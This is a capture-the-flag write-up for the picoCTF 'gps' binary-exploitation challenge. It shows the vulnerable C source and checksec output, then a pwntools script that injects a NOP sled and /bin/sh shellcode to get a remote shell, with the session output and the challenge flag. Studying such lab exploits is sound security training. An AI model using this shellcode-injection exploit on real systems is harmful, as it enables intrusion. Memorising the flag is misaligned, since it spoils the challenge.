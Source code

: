 # gps
Binary Exploitation, 550 points

## Description:
> You got really lost in the wilderness, with nothing but your trusty gps. Can you find your way back to a shell and get the flag?

```c
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define GPS_ACCURACY 1337

typedef void (fn_t)(void);

void initialize() {
    printf("GPS Initializing");
    for (int i = 0; i < 10; ++i) {
        usleep(300000);
        printf(".");
    }
    printf("Done\n");
}

void acquire_satellites() {
    printf("Acquiring satellites.");
    for (int i = 0; i < 3; ++i) {
        printf("Satellite %d", i);
        for (int j = 0; j < rand() % 10; ++j) {
            usleep(133700);
            printf(".");
        }
        if (i != 3) {
            printf("Done\n");
        } else {
            printf("Weak signal.\n");
        }
    }

    printf("\nGPS Initialized.\n");
    printf("Warning: Weak signal causing low measurement accuracy\n\n");
}

void *query_position() {
  char stk;
  int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
  void *ret = &stk + offset;
  return ret;
}


int main() {
    setbuf(stdout, NULL);

    char buffer[0x1000];
    srand((unsigned) (uintptr_t) buffer);

    initialize();
    acquire_satellites();

    printf("We need to access flag.txt.\nCurrent position: %p\n", query_position());

    printf("What's your plan?\n> ");
    fgets(buffer, sizeof(buffer), stdin);

    fn_t *location;

    printf("Where do we start?\n> ");
    scanf("%p", (void**) &location);

    location();
    return 0;
}
```

## Solution:

The program reads user input into a local buffer, then jumps to a location of our choice. We need to use this to get a shell.

Running the program through checksec, we get the following:
```console
root@kali:/media/sf_CTFs/pico/gps# checksec.sh -f gps
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   81 Symbols      Yes     0               4       gps
```

NX is disabled, so we can execute from the stack. It's easy to feed the program with shellcode, since it simply asks for input. Now we just need to find a way to jump to our shellcode.

We know the approximate location of the buffer on the stack, since we are given the location of a local variable in `query_position()`, give or take `(GPS_ACCURACY / 2)` bytes.

The local buffer is 0x1000 bytes long, while `(GPS_ACCURACY / 2)` is 668. So, if we put the shellcode at the end of the buffer, and we calculate the worst case (where we are off by 688 plus a bit more for the difference between `stk` and `buffer`), we still have more than enough room to create a "nop slide" that will execute our code.

The script:
```python
from pwn import *
import re

context(arch='amd64', os='linux', bits = '64')
#context.log_level="debug"

BUF_LEN = 0x1000 - 5
GPS_ACCURACY = 1337

nop = asm(shellcraft.nop())
shellcode = pwnlib.shellcraft.amd64.linux.sh()
sc_asm = asm(shellcode)
log.info("Shellcode: {}".format(shellcode))
log.info("Length of shellcode: {}".format(len(sc_asm)))

payload = nop * (BUF_LEN - len(sc_asm)) + sc_asm

p = remote("2018shell3.picoctf.com", 58896)
out = p.recvuntil("> ")
address = re.search("Current position: (0x[a-fA-F0-9]+)", out).group(1)
log.info("Current position: {}".format(address))

guess = int(address, 16) + GPS_ACCURACY

log.info("Destination: 0x{:02x}".format(guess))

p.sendline(payload)
p.recvuntil("> ")
p.sendline(format(guess, 'x'))

p.interactive()
```

The output:
```console
root@kali:/media/sf_CTFs/pico/gps# python exploit.py
[*] Shellcode:     /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push '/bin///sh\x00' */
        push 0x68
        mov rax, 0x732f2f2f6e69622f
        push rax
        mov rdi, rsp
        /* push argument array ['sh\x00'] */
        /* push 'sh\x00' */
        push 0x1010101 ^ 0x6873
        xor dword ptr [rsp], 0x1010101
        xor esi, esi /* 0 */
        push rsi /* null terminate */
        push 8
        pop rsi
        add rsi, rsp
        push rsi /* 'sh\x00' */
        mov rsi, rsp
        xor edx, edx /* 0 */
        /* call execve() */
        push SYS_execve /* 0x3b */
        pop rax
        syscall
[*] Length of shellcode: 48
[+] Opening connection to 2018shell3.picoctf.com on port 58896: Done
[*] Current position: 0x7ffd0d92363b
[*] Destination: 0x7ffd0d923b74
[*] Switching to interactive mode
$ ls
flag.txt
gps
gps.c
xinet_startup.sh
$ cat flag.txt
picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_alhujefk}
$ exit
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to 2018shell3.picoctf.com port 58896
[*] Got EOF while sending in interactive
```

The flag: picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_alhujefk}